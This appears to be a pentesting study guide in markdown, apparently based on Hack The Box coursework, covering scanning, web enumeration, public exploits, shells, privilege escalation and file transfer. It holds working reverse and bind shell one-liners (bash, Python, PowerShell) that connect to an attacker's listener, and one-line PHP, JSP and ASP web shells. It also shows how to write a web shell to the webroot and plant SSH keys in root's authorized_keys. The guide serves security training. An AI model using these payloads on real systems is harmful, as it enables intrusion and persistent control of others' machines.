

# Pentesting Basics

## [Information Security](https://en.wikipedia.org/wiki/Information_security)

The `CIA Triad` is the cornerstone of any  organization's security infrastructure; in fact, they (should) function  as goals and objectives for every security program.

- **C**onfidentiality

  Protection of your most sensitive information from unauthorized access.

- **I**ntegrity

  Protection of data from modification or deletion by unauthorized parties,  and ensuring that when authorized people make changes that shouldn't  have been made the damage can be undone.

- **A**vailability

  Systems, access channels, and authentication mechanisms must all be working properly for the information they provide and protect to be available when needed.


In infosec, we usually hear the terms `red team` and `blue team`. In the simplest terms, the `red team` plays the attackers' role, while the `blue team` plays the defenders' part.


## Common Terms

### Shell

A shell  is a program that takes input from the user via the keyboard and passes  these commands to the operating system to perform a specific function.

Most Linux systems use a program called [Bash (Bourne Again Shell)](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html) as a shell program to interact with the operating system. 

Bash is an enhanced version of [sh](https://man7.org/linux/man-pages/man1/sh.1p.html), the original unix shell.

Aside from `bash` there are also other shells like [Zsh](https://en.wikipedia.org/wiki/Z_shell), [Tcsh](https://en.wikipedia.org/wiki/Tcsh), [Ksh](https://en.wikipedia.org/wiki/KornShell), [Fish shell](https://en.wikipedia.org/wiki/Fish_(Unix_shell)), etc.

### Port

[Common Ports](../assets/common-ports.pdf)

[Well-Known Ports](https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-ports.html)


### Web Server

A web server is an application that runs on the back-end server, which handles all of the `HTTP` traffic from the client-side browser, routes it to the requests  destination pages, and finally responds to the client-side browser. Web  servers usually run on TCP ports `80` or `443`,  and are responsible for connecting end-users to various parts of the web application, in addition to handling their various responses.


### OWASP TOP 10

| Number | Category                                                     | Description                                                  |
| ------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 1.     | [Injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection) | SQL injection, command injection, LDAP injection, etc.       |
| 2.     | [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication) | Authentication and session management misconfigurations can lead to  unauthorized access to an application through password guessing attacks  or improper session timeout, among other issues. |
| 3.     | [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure) | Improperly protecting data such as financial, healthcare, or personally identifiable information. |
| 4.     | [XML External Entities (XXE)](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)) | Poorly configured XML processors that can lead to internal file  disclosure, port scanning, remote code execution, or denial of service  attacks. |
| 5.     | [Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control) | Restrictions are not appropriately implemented to prevent users from accessing other users accounts, viewing sensitive data, accessing  unauthorized functionality, modifying data, etc. |
| 6.     | [Security Misconfiguration](https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration) | Insecure default configurations, open cloud storage, verbose error messages which disclose too much information. |
| 7.     | [Cross-Site Scripting (XSS)](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS)) | XSS occurs when an application does not properly sanitize  user-supplied input, allowing for the execution of HTML or JavaScript in a victim's browser. This can lead to session hijacking, website  defacement, redirecting a user to a malicious website, etc. |
| 8.     | [Insecure Deserialization](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization) | This flaw often leads to remote code execution, injection attacks, or privilege escalation attacks. |
| 9.     | [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities) | All of the components used by an application (libraries, frameworks, software modules) run with the same privilege as the application. If  the application uses components with known flaws, it may lead to  sensitive data exposure or remote code execution. |
| 10.    | [Insufficient Logging & Monitoring](https://owasp.org/www-project-top-ten/2017/A10_2017-Insufficient_Logging%26Monitoring) | Deficiencies in logging & monitoring may allow a successful  attack to go unnoticed, for attackers to establish persistence in the  network, or tamper with or extract sensitive data without being noticed. |


## Basic Tools

### ssh

[Secure Shell (SSH)](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)) is a network protocol that runs on port `22` by default and provides users such as system administrators a secure  way to access a computer remotely. SSH can be configured with password  authentication or passwordless using [public-key authentication](https://serverpilot.io/docs/how-to-use-ssh-public-key-authentication/) using an SSH public/private key pair. 

### netcat

[Netcat](https://linux.die.net/man/1/nc), `ncat`, or `nc`, is a network utility for interacting with TCP/UDP ports. It  can be used for many things during a pentest. Its primary usage is for  connecting to [shells](###shell).

### socat

`socat` has a few features that `netcat` does not support, like forwarding ports and connecting to serial devices. `Socat` can also be used to [upgrade a shell to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat).  A [standalone binary](https://github.com/andrew-d/static-binaries) of `Socat` can be transferred to a system after obtaining remote code execution to get a more stable reverse shell connection.

### tmux

[tmux](../tools/tmux.md) is an open-source terminal multiplexer for Unix-like  operating systems. It allows multiple terminal sessions to be accessed  simultaneously in a single window. It is useful for running more than  one command-line program at the same time.

### vi/vim

[Vim](https://linuxcommand.org/lc3_man_pages/vim1.html) is a text editor that can be used for writing code or editing  text files on Linux systems. One of the great benefits of using `Vim` is that it relies entirely on the keyboard nad that it's included on almost every linux system.

## Service Scanning

A [service](https://en.wikipedia.org/wiki/Network_service) is an application running on a computer that performs some useful function for other users or computers.

We scan for services with `nmap`. To scan for services we need an IP. There are several scans possible (TCP SYN/Connect()/ACK/Window/Maimon and other). Running as `root`, we usually use the defaul TCP SYN scan (`-sS`)

A typical scan (results included) can look like this:

```shell-session
Bonzo@htb[/htb]$ nmap -sV -sC -p- 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-25 16:18 EST
Nmap scan report for 10.129.42.253
Host is up (0.11s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Feb 25 19:25 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: PHP 7.4.3 - phpinfo()
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: GS-SVCSCAN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-25T21:21:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 233.68 seconds
```


## Web Enumeration

When performing service scanning, we will often run into web servers  running on ports 80 and 443. Webservers host web applications (sometimes more than 1) which often provide a considerable attack surface and a  very high-value target during a penetration test. Proper web enumeration is critical, especially when an organization is not exposing many  services or those services are appropriately patched.

### gobuster

After discovering a web application, it is always worth checking to see  if we can uncover any hidden files or directories on the webserver that  are not intended for public access. We can use a tool such as [ffuf](https://github.com/ffuf/ffuf) or [GoBuster](https://github.com/OJ/gobuster) to perform this directory enumeration. Sometimes we will find hidden  functionality or pages/directories exposing sensitive data that can be  leveraged to access the web application or even remote code execution on the web server itself.

For a directory scan, whatever tool we use, we need a wordlist. A very popular collection of wordlist is [Seclists](https://github.com/danielmiessler/SecLists). 

```shell-session
Bonzo@htb[/htb]$ gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/11 21:47:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wordpress (Status: 301)
===============================================================
2020/12/11 21:47:46 Finished
===============================================================
```

We can enumerate subdomains as well. We use the `dns` flag with gobuster. There has to be a dns resolver available and it has to be used the domain name

```shell-session
Bonzo@htb[/htb]$ gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Domain:     inlanefreight.com
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/SecLists/Discovery/DNS/namelist.txt
===============================================================
2020/12/17 23:08:55 Starting gobuster
===============================================================
Found: blog.inlanefreight.com
Found: customer.inlanefreight.com
Found: my.inlanefreight.com
Found: ns1.inlanefreight.com
Found: ns2.inlanefreight.com
Found: ns3.inlanefreight.com
===============================================================
2020/12/17 23:10:34 Finished
===============================================================
```


### Additional Web Enumeration Methods

#### Banner Grabbing / Web Server Headers

We can grab the banner with curl. Another tool is [EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness), which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.

```shell-session
Bonzo@htb[/htb]$ curl -IL https://www.inlanefreight.com

HTTP/1.1 200 OK
Date: Fri, 18 Dec 2020 22:24:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Link: <https://www.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
Link: <https://www.inlanefreight.com/>; rel=shortlink
Content-Type: text/html; charset=UTF-8
```

#### Whatweb

We can extract the version of web servers, supporting frameworks, and applications using the command-line tool `whatweb`. This information can help us pinpoint the technologies in use and begin to search for potential vulnerabilities.


```shell-session
Bonzo@htb[/htb]$ whatweb 10.10.10.121

http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]
```

#### Check ssl certificate

SSL/TLS certificates can give us names, emails, subdomains. It's always good to check.

#### Check robots.txt

t is common for websites to contain a `robots.txt` file,  whose purpose is to instruct search engine web crawlers such as  Googlebot which resources can and cannot be accessed for indexing. The `robots.txt` file can provide valuable information such as the location of private files and admin pages.

#### Check Source Code

Source code can reveal forgotten credentials or notices in the comments the developer forgot. 


## Public exploits

Once we identify the services running on ports identified from our `nmap` scan, the first step is to look if any of the applications/services  have any public exploits. Public exploits can be found for web  applications and other applications running on open ports, like `SSH` or `ftp`.

We can use google to search for exploits by simply adding the service and version number followed by  the phrase exploit.




We can also utilize online exploit databases to search for vulnerabilities, like [Exploit DB](https://www.exploit-db.com), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com). 

Mostly we use `searchsploit`

```shell-session
Bonzo@htb[/htb]$ searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                        | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```


### Types of Shells

| **Shell Type**  | **Description**                                              |
| --------------- | ------------------------------------------------------------ |
| `Reverse shell` | Initiates a connection back to a "listener" on our attack box. |
| `Bind shell`    | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
| `Web shell`     | Runs operating system commands via the web browser, typically not  interactive or semi-interactive. It can also be used to run single  commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |

[Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

#### Reverse shell

Once we identify a vulnerability on the remote host that allows remote code execution, we can start a `netcat` listener on our machine that listens on a specific port, say port `1234`. With this listener in place, we can execute a `reverse shell command` that connects the remote systems shell, i.e., `Bash` or `PowerShell` to our `netcat` listener, which gives us a reverse connection over the remote system.

```shell-session
Bonzo@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

| Flag      | Description                                                  |
| --------- | ------------------------------------------------------------ |
| `-l`      | Listen mode, to wait for a connection to connect to us.      |
| `-v`      | Verbose mode, so that we know when we receive a connection.  |
| `-n`      | Disable DNS resolution and only connect from/to IPs, to speed up the connection. |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to. |

The command we execute depends on what operating system the compromised  host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.


Examples for reverse shells (Linux and Windows)

`Code: bash`

```bash
bash -c 'bash -i >& /dev/TCP/10.10.10.10/1234 0>&1'
```

`Code: bash`

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

`Code: powershell`

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


### Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Bind Shell Cheatsheet.md) to find a proper command to start our bind shell.

The following are reliable commands we can use to start a bind shell:

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Upgrading a shell

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL Z
stty raw -echo
fg
[ENTER]
[ENTER]
```

We may notice that our shell does not cover the entire terminal. To fix  this, we need to figure out a few variables. We can open another  terminal window on our system, maximize the windows or use any size we  want, and then input the following commands to get our variables:    

```shell-session
Bonzo@htb[/htb]$ echo $TERM

xterm-256color
```

```shell-session
Bonzo@htb[/htb]$ stty size

67 318
```

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

## Web Shell

The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is  typically a one-liner that is very short and can be memorized easily.  The following are some common short web shell scripts for common web  languages:

Code: php

```php
<?PHP system($_GET['cmd']);?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script  into the remote host's web directory (webroot) to execute the script  through the web browser. This can be through a vulnerability in an  upload feature, which would allow us to write one of our shells to a  file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the  web. So, the first step is to identify where the webroot is. The  following are the default webroots for common web servers:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\    |
| `XAMPP`    | C:\xampp\htdocs\       |

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

Code: bash

```bash
echo "<?PHP system(\$_GET['cmd']);?>" > /var/www/html/shell.php
```

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command.

Or using **`curl`**:

```shell-session
Bonzo@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A  great benefit of a web shell is that it would bypass any firewall  restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place,  and we can access it and get command execution without exploiting the  remote host again.

On the other hand, a web shell is not as interactive as reverse and  bind shells are since we have to keep requesting a different URL to  execute our commands. 


## Privilege Escalation

### PrivEsc Checklists

Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets  online that have a collection of checks we can run and the commands to  run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz), which has an excellent checklist for both [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) and [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md) and [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md). We must start experimenting with various commands and techniques and  get familiar with them to understand multiple weaknesses that can lead  to escalating our privileges.

Another useful tool we may use for server enumeration is the [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.

### Enumeration Scripts

Some of the common Linux enumeration scripts include [LinEnum](https://github.com/rebootuser/LinEnum.git) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker), and for Windows include [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS). Another useful tool we may use for server enumeration is the [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.

```shell-session
Bonzo@htb[/htb]$ ./linpeas.sh
...SNIP...

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEYEND:
  RED/YELLOW: 99% a PE vector
  RED: You must take a look at it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
  LightMangenta: Your username


====================================( Basic information )=====================================
OS: Linux version 3.9.0-73-generic
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
...SNIP...
```

### Kernel Exploits

Look for vulnerable kernels. For example, the above script showed us the Linux version to be `3.9.0-73-generic`. If we Google exploits for this version or use `searchsploit`, we would find a `CVE-2016-5195`, otherwise known as `DirtyCow`. We can search for and download the [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) exploit and run it on the server to gain root access.

### Vulnerable Software

Another thing we should look for is installed software. For example, we can use the `dpkg -l` command on Linux or look at `C:\Program Files` in Windows to see what software is installed on the system. We should  look for public exploits for any installed software, especially if any  older versions are in use, containing unpatched vulnerabilities.

### User privileges

An user with lower privileges can sometimes run scripts or programs with higher privileges. Therefore we should look at:

1. Sudo
2. SUID
3. Windows Token Privileges

```shell-session
Bonzo@htb[/htb]$ sudo -l

[sudo] password for user1:
...SNIP...

User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL
```

The above output says that we can run all commands with `sudo`, which gives us complete access, and we can use the `su` command with `sudo` to switch to the root user:

​                                    

```shell-session
Bonzo@htb[/htb]$ sudo su -
```

Once we find a particular application we can run with `sudo`, we can look for ways to exploit it to get a shell as the root user. [GTFOBins](https://gtfobins.github.io) contains a list of commands and how they can be exploited through `sudo`

[LOLBAS](https://lolbas-project.github.io/#) also contains a list of Windows applications which we may be able to  leverage to perform certain functions, like downloading files or  executing commands in the context of a privileged user.

### Scheduled Tasks

In both Linux and Windows, there are methods to have scripts run at  specific intervals to carry out a task. Some examples are having an  anti-virus scan running every hour or a backup script that runs every 30 minutes. There are usually two ways to take advantage of scheduled  tasks (Windows) or cron jobs (Linux) to escalate our privileges:

1. Add new scheduled tasks/cron jobs
2. Trick them to execute a malicious software

The easiest way is to check if we are allowed to add new scheduled  tasks. In Linux, a common form of maintaining scheduled tasks is through `Cron Jobs`. There are specific directories that we may be able to utilize to add new cron jobs if we have the `write` permissions over them. These include:

1. `/etc/crontab`
2. `/etc/cron.d`
3. `/var/spool/cron/crontabs/root`

If we can write to a directory called by a cron job, we can write a  bash script with a reverse shell command, which should send us a reverse shell when executed.

### Exposed Credential

Sometimes credentials are stored inf configuration files or log files  (`bash_history` in Linux and `PSReadLine` in Windows).

We may also check for `Password Reuse`, as the system user  may have used their password for the databases, which may allow us to  use the same password to switch to that user.


### SSH Keys

 If we have read access over the `.ssh` directory for a specific user, we may read their private ssh keys found in `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`, and use it to log in to the server. 

If we find ourselves with write access to a users`/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user. We must first create a new key (on the attacker system) with `ssh-keygen` and the `-f` flag to specify the output file:

​                                                                                                

```shell-session
Bonzo@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine. Let us copy `key.pub`, then on the remote machine, we will add it into `/root/.ssh/authorized_keys`:                                                                                          

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Now, the remote server should allow us to log in as that user by using our private key:                                             

```shell-session
Bonzo@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```

## Transfering files

During any penetration testing exercise, it is likely that we will need  to transfer files to the remote server, such as enumeration scripts or  exploits, or transfer data back to our attack host. 

First we need to start a listening server in the directory where the files we want to transfer are.

```shell-session
Bonzo@htb[/htb]$ cd /tmp
Bonzo@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After that we can transfer the files we need from the other host connecting to the listening python server. 

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

### Using base 64

In some cases, we may not be able to transfer the file. For example,  the remote host may have firewall protections that prevent us from  downloading a file from our machine. In this type of situation, we can  use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it. For example, if we wanted to transfer a binary file called `shell`, we can `base64` encode it as follows:

```shell-session
Bonzo@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:

```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```


## [Basic Linux Tools Cheatsheet](../cheatsheets/cheatsheet_basic_linux_tools.md)

| **Command**              | **Description**                      |
| ------------------------ | ------------------------------------ |
| **General**              |                                      |
| `sudo openvpn user.ovpn` | Connect to VPN                       |
| `ifconfig`/`ip a`        | Show our IP address                  |
| `netstat -rn`            | Show networks accessible via the VPN |
| `ssh user@10.10.10.10`   | SSH to a remote server               |
| `ftp 10.129.42.253`      | FTP to a remote server               |
| **tmux**                 |                                      |
| `tmux`                   | Start tmux                           |
| `ctrl+b ctrl+c`          | tmux: new window                     |
| `ctrl+b 1`               | tmux: switch to window (`1`)         |
| `ctrl+%`                 | tmux: split pane vertically          |
| `ctrl+"`                 | tmux: split pane horizontally        |
| `ctrl+->`                | tmux: switch to the right pane       |
| **Vim**                  |                                      |
| `vim file`               | vim: open `file` with vim            |
| `esc+i`                  | vim: enter `insert` mode             |
| `esc`                    | vim: back to `normal` mode           |
| `x`                      | vim: Cut character                   |
| `dw`                     | vim: Cut word                        |
| `dd`                     | vim: Cut full line                   |
| `yw`                     | vim: Copy word                       |
| `yy`                     | vim: Copy full line                  |
| `p`                      | vim: Paste                           |
| `:1`                     | vim: Go to line number 1.            |
| `:w`                     | vim: Write the file 'i.e. save'      |
| `:q`                     | vim: Quit                            |
| `:q!`                    | vim: Quit without saving             |
| `:wq`                    | vim: Write and quit                  |

## [Basic Pentesting Cheatsheet](../cheatsheets/cheatsheet_basic_pentesting.md)

| **Command**                                                  | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| **Service Scanning**                                         |                                                              |
| `nmap 10.129.42.253`                                         | Run nmap on an IP                                            |
| `nmap -sV -sC -p- 10.129.42.253`                             | Run an nmap script scan on an IP                             |
| `locate scripts/citrix`                                      | List various available nmap scripts                          |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`       | Run an nmap script on an IP                                  |
| `netcat 10.10.10.10 22`                                      | Grab banner of an open port                                  |
| `smbclient -N -L \\\\10.129.42.253`                          | List SMB Shares                                              |
| `smbclient \\\\10.129.42.253\\users`                         | Connect to an SMB share                                      |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`   | Scan SNMP on an IP                                           |
| `onesixtyone -c dict.txt 10.129.42.254`                      | Brute force SNMP secret string                               |
| **Web Enumeration**                                          |                                                              |
